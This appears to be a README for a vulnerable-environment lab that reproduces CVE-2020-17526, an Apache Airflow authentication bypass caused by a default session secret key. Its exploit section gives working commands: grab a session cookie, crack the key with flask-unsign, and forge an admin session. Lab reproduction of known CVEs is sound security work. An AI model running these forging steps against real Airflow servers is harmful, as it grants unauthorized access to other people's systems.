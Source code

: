 # Apache Airflow Authentication Bypass (CVE-2020-17526)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Airflow is an open source, distributed task scheduling framework. Although authentication is not required by default, but the administration can specify the `webserver.authenticate=True` to enable it.

In the version prior to 1.10.13, Apache Airflow uses a default session secert key, which leads to impersonate arbitrary user when authentication is enabled.

References:

- <https://lists.apache.org/thread/rxn1y1f9fco3w983vk80ps6l32rzm6t0>
- <https://kloudle.com/academy/authentication-bypass-in-apache-airflow-cve-2020-17526-and-aws-cloud-platform-compromise>

## Vulnerability Environment

Execute the following commands to start an airflow 1.10.10 server:

```bash
#Initialize the database
docker-compose run airflow-init

#Start service
docker-compose up -d
```

After the server is started, browse the `http://your-ip:8080` to see the login page of Apache Airflow. Yes, this server required authentication.

## Exploit

Firstly, browse the login page and get a session string from Cookie:

```
curl -v http://localhost:8080/admin/airflow/login
```

![](1.png)

Then, use [flask-unsign](https://github.com/Paradoxis/Flask-Unsign) to crack the session key:

```
flask-unsign -u -c [session from Cookie]
```

![](2.png)

Bingo, we got the valid session key `temporary_key`. Then, use this key to generate a new session whose `user_id` equals to `1`:

```
flask-unsign -s --secret temporary_key -c "{'user_id': '1', '_fresh': False, '_permanent': True}"
```

![](3.png)

Finally, use this generated session to log in successfully:

![](4.png)

